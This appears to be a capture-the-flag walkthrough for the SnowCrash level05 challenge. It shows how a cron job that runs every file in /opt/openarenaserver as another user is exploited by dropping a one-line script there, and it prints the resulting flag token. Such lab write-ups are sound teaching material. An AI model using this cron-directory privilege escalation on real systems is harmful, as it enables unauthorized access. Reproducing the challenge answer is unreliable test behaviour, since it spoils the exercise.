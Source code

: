 ```
level05@10.11.200.61's password: 
You have new mail.

level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

It seems to be a cron job that executes the script /usr/sbin/openarenaserver every 2 minutes.

Let's see what's inside:

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

The script executes every element inside /opt/openarenaserver then deletes them.

So, let's create a script inside /opt/openarenaserver that will copy the result of /bin/getflag into a file in /tmp:

```
level05@SnowCrash:~$ level05@SnowCrash:~$ echo "/bin/getflag > /tmp/getflag" > /opt/openarenaserver/getflag
```

And wait for about 2 minutes:

```
level05@SnowCrash:~$ cat /tmp/getflag
Check flag.Here is your token: viuaaale9huek52boumoomioc
```
